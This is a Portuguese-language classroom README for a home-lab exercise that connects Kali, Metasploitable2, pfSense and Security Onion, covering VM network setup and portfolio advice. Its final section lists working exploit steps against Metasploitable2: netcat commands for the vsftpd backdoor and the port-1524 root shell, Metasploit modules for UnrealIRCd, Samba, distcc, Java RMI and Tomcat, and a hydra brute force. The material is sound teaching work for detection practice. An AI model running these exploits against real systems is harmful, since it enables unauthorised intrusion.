

# Laboratório de Redes: Ataque, Firewall e Detecção

Um atacante, um alvo cheio de falhas, um firewall no meio e um SOC vigiando o cabo. As quatro peças ligadas de verdade, montadas no laboratório do SENAC.

> 📎 Os slides completos desta aula estão em [`slides/`](./slides) (ou no link do Artifact, se você tiver acesso).

Baseado no guia [*"The free cybersecurity home lab, plus the four things that make it count"*](https://certgames.com/blog/cybersecurity-home-lab-for-free), de Carter Perez (CertGames), adaptado para rodar no laboratório da sala.

---

## O que já está pronto

As máquinas do laboratório têm **16 GB de RAM** e uma boa GPU — dá para rodar as quatro VMs sem sufoco. O **VirtualBox** e o **Kali Linux** já estão instalados. Você não precisa baixar nada disso.

O que falta montar são três peças: **Metasploitable2**, **pfSense** e **Security Onion**, e ligar tudo na rede certa.

---

## As 4 peças

| Peça | O que é | RAM | Disco |
|---|---|---|---|
| **Kali Linux** *(já instalado)* | O atacante. ~600 ferramentas; nmap e Metasploit são as duas para mexer primeiro. | 2 GB | *(já vem pronto)* |
| **Metasploitable2** | O alvo. Feito pela Rapid7 de propósito para ser quebrado. Um museu de jeitos de ser hackeado. | 512 MB | ~8 GB *(disco já vem pronto no `.vmdk`, não precisa criar um novo)* |
| **pfSense CE** | O firewall/roteador. Versão Community da Netgate, grátis. Duas placas de rede — a segunda é o ponto inteiro do exercício. | 1 GB | 8 GB *(disco novo, criado na hora)* |
| **Security Onion** | O SOC. Suricata + Zeek + Elastic numa VM só. O que um analista fica olhando o dia todo. | 8 GB | **~200 GB** *(disco novo, dinamicamente alocado)* |

> A soma de disco novo que você precisa criar é pouco mais de **200 GB** (praticamente tudo vem do Security Onion). Confira o espaço livre na máquina da sala antes de começar — como o disco é "dinamicamente alocado", ele só ocupa esse tanto aos poucos, conforme enche, não os 200 GB de uma vez.

### Metasploitable2 — as falhas específicas

- **Porta 21** — backdoor no vsftpd 2.3.4, plantado no próprio código-fonte
- **Porta 6667** — backdoor no servidor IRC
- **Porta 1524** — entrega um shell de root sem senha nenhuma

Login: `msfadmin` / `msfadmin`.

---

## A parte que todo mundo erra: a fiação de rede

Toda placa de rede de uma VM tem um modo:

- **NAT** — a VM sai para a internet através do seu computador.
- **Bridged** — a VM se comporta como um aparelho físico dentro da rede real (no nosso caso, a rede do SENAC).
- **Internal Network** — a VM só fala com outras VMs na mesma rede interna nomeada. Nada de fora do computador enxerga isso.

### A regra de ouro

**O Metasploitable nunca encosta em NAT ou Bridged. Nunca.** Ele tem um shell de root numa porta aberta, sem senha. Colocar isso em Bridged é expor esse shell direto na rede do SENAC. **Só Internal Network.**

### O mapa completo

| VM | Adapter 1 | Adapter 2 |
|---|---|---|
| Kali | Internal Network `lab` | — |
| Metasploitable | Internal Network `lab` | — |
| pfSense | NAT (WAN) | Internal Network `lab` (LAN) |
| Security Onion | NAT (gestão) | Internal Network `lab`, sem IP, **Promiscuous Mode: Allow All** |

Kali e Metasploitable ficam na mesma rede privada, com o pfSense como gateway. O Security Onion enxerga tudo porque a segunda placa está em modo promíscuo — **o checkbox que mais gente esquece**.



> O pfSense não está no caminho do ataque em si — Kali e Metasploitable estão no mesmo segmento `lab` e se enxergam direto. Quem detecta é o Security Onion, escutando essa mesma rede em modo promíscuo.

---

## Montando o Metasploitable2

1. Baixe em [sourceforge.net/projects/metasploitable](https://sourceforge.net/projects/metasploitable/) e extraia o zip. Dentro está o `Metasploitable.vmdk`.
2. No VirtualBox: **New** → nome "Metasploitable", tipo **Linux**, versão **Ubuntu (32-bit)**.
3. 512 MB de RAM. Em "hard disk", escolha **"Use an existing virtual hard disk file"** e aponte para o `.vmdk`.
4. **Settings → Network → Adapter 1**: **Internal Network**, nome **"lab"**.
5. Ligue, login `msfadmin` / `msfadmin`, rode `ifconfig` e anote o IP.

---

## Montando o pfSense

1. [pfsense.org/download](https://www.pfsense.org/download/) → Community Edition, AMD64. Pode pedir uma conta grátis na Netgate — o software continua gratuito.
2. **New VM**: nome "pfSense", tipo **BSD**, versão **FreeBSD (64-bit)**, 1024 MB RAM, disco novo de 8 GB.
3. **Settings → Storage**: prenda o ISO do instalador na unidade óptica.
4. **Settings → Network**: Adapter 1 = **NAT**. Aba Adapter 2: Enable, **Internal Network "lab"**.
5. Instale com as opções padrão. Ao reiniciar, atribua **WAN** = primeira placa, **LAN** = segunda placa.
6. Reinicie Kali e Metasploitable para pegarem IP por DHCP do pfSense.

---

## Montando o Security Onion

1. [github.com/Security-Onion-Solutions/securityonion](https://github.com/Security-Onion-Solutions/securityonion), branch **2.4** → siga o link do `DOWNLOAD_AND_VERIFY_ISO.md` até o ISO.
2. **New VM**: nome "SecurityOnion", tipo **Linux**, versão **Oracle Linux (64-bit)**. **8192 MB RAM**, **4 processadores**, disco novo de **200 GB** dinâmico.
3. **Settings → Storage**: prenda o ISO. **Settings → Network**: Adapter 1 = **NAT**; aba Adapter 2: Enable, **Internal Network "lab"**.
4. Clique em **Advanced** no Adapter 2 e mude **Promiscuous Mode para "Allow All"**. É o checkbox que quase todo mundo esquece.
5. Boot → Install → tipo de instalação **EVAL** → primeira placa como gestão, segunda como interface de monitoramento.
6. Deixe rodar (demora). No final, ele mostra um endereço web — mas **esse endereço não abre direto no navegador do computador da sala**, porque a placa de gestão está em NAT (rede privada só daquela VM). É preciso criar uma regra de **Port Forwarding** antes (Settings → Network → Adapter 1 → Advanced → Port Forwarding: porta do host `8443` → porta `443` da VM). Só depois disso `https://localhost:8443` abre o login — passo a passo completo no `CONFIGURACAO-DETALHADA.md`, seção 3.3.

---

## O teste

No Kali:

```bash
nmap -sV <IP do Metasploitable>
```

No Security Onion, atualize a tela **Alerts**. Assinaturas do Suricata devem aparecer, com o IP do Kali como origem.

Você atacou algo, um firewall ficou no meio do caminho e um sistema de detecção viu. É esse ciclo que sustenta qualquer trabalho de blue team.

**Alerts vazio?** É quase sempre o promiscuous mode. Volte no passo 4 da montagem do Security Onion.

---

## O que separa isso de mais um print no GitHub

Montar o laboratório é a entrada. Não é o diferencial.

O caminho mais comum: alguém monta esse laboratório, roda o nmap, vê o alerta, tira um print, escreve um README chamado "Home Lab Project" com uma lista de cinco ferramentas, sobe pro GitHub e coloca no currículo "montei um lab com Kali, pfSense e Security Onion". Depois, nada acontece — porque fez o mínimo, e todo mundo fez o mínimo. Um recrutador já viu esse README uma centena de vezes, metade escrita por um chatbot.

Quatro coisas que realmente contam:

### 1. Documente de verdade

Não é um README com lista de bullets. É um relato real: o que você esperava que o firewall fizesse, versus o que ele realmente fez; a regra exata do Suricata que disparou, com o ID da regra, e o que ela procura; o momento em que ficou 40 minutos sem tráfego porque esqueceu o promiscuous mode, e como descobriu. Os erros de percurso são a parte mais valiosa — ninguém mais escreve isso, e é isso que prova que foi um humano que fez.

### 2. Vá além do guia

Escreva uma regra própria do Suricata que pegue algo que a regra padrão não pega. Crie uma regra no pfSense que bloqueie o scan e prove com um antes e depois. Escreva um script Python de dez linhas que roda o scan e puxa a contagem de alertas da API do Security Onion. Coloque cada um desses no repositório.

### 3. Grave a tela e mostre

Grave o processo inteiro, incluindo as partes em que não funcionou. Narre o que está fazendo. Publique. Ninguém vai encontrar seu GitHub sozinho — mas um vídeo de três minutos de uma pessoa explicando por que o IDS não disparou, e depois consertando isso, é algo que um recrutador assiste no celular.

### 4. Fale com uma pessoa real

Ache alguém que trabalha num SOC de verdade — LinkedIn, Discord, um evento, amigo de amigo. Mande o vídeo e uma pergunta: **"o que você teria feito diferente?"**. A maioria não vai responder. Uma vai. E essa conversa vale mais que os próximos três laboratórios juntos.

---

## Checklist final

- [ ] Metasploitable, pfSense e Security Onion montados
- [ ] Metasploitable e Kali em Internal Network "lab" — nunca NAT/Bridged no Metasploitable
- [ ] pfSense com uma perna em NAT e outra na "lab"
- [ ] Security Onion com Promiscuous Mode "Allow All" na segunda placa
- [ ] `nmap -sV` do Kali aparecendo como alerta no Security Onion
- [ ] Começou a documentar os erros de percurso, não só o resultado final

---

## Ressalva honesta

O Metasploitable2 é de 2012. As falhas são antigas. Serve para entender como exploração funciona na prática — não mostra como é uma máquina moderna e corrigida. Está tudo bem para um primeiro laboratório. Só saiba o que é.

---

## Exemplos do que explorar no Metasploitable, pelo Kali

Depois do `nmap -sV` inicial, aqui vão alvos concretos dentro do próprio Metasploitable — do mais simples ao mais elaborado. Todos funcionam só entre essas duas VMs, dentro da rede `lab`.

### 1. Backdoor do vsftpd 2.3.4 — porta 21

A versão do FTP instalada tem um backdoor plantado no próprio código: se o usuário digitado terminar com `:)`, o servidor abre um shell de root na porta 6200.

```bash
# no Kali
nc <IP do Metasploitable> 21
# o servidor responde com um banner. Digite o comando USER com um valor terminando em :) , ex:
USER hacker:)
# não precisa mandar PASS — o backdoor já abre. Em outro terminal:
nc <IP do Metasploitable> 6200
```

Ou direto pelo Metasploit: `use exploit/unix/ftp/vsftpd_234_backdoor`.

### 2. Backdoor do UnrealIRCd — porta 6667

O servidor de IRC também vem com uma porta dos fundos.

```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS <IP do Metasploitable>
run
```

### 3. Shell de root sem senha — porta 1524 (ingreslock)

O mais direto de todos: essa porta entrega um shell de root, sem pedir nada.

```bash
nc <IP do Metasploitable> 1524
whoami
# deve responder: root
```

### 4. Samba "usermap script" — porta 445

Falha clássica de execução remota de comando via Samba.

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS <IP do Metasploitable>
run
```

### 5. distccd — porta 3632

O daemon do distcc (compilação distribuída) aceita comandos de qualquer um.

```bash
msfconsole
use exploit/unix/misc/distcc_exec
set RHOSTS <IP do Metasploitable>
run
```

### 6. Java RMI Server — porta 1099

```bash
msfconsole
use exploit/multi/misc/java_rmi_server
set RHOSTS <IP do Metasploitable>
run
```

### 7. Tomcat Manager — porta 8180

Credenciais padrão (`tomcat` / `tomcat`) dão acesso ao painel de administração, de onde dá para subir um `.war` malicioso e ganhar shell.

```bash
msfconsole
use exploit/multi/http/tomcat_mgr_deploy
set RHOSTS <IP do Metasploitable>
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
run
```

### 8. Força bruta em serviços com senha fraca

Bom exercício para conectar com a aula de 21/09: rodar `hydra` ou `medusa` contra SSH, FTP ou MySQL do Metasploitable usando a wordlist `rockyou.txt`.

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://<IP do Metasploitable>
```

> Para cada um desses, vale a mesma regra do bloco "o que separa isso de mais um print no GitHub": não é só rodar o exploit e printar "consegui root" — é anotar o que o Security Onion detectou (ou não detectou) para cada ataque, e por quê.
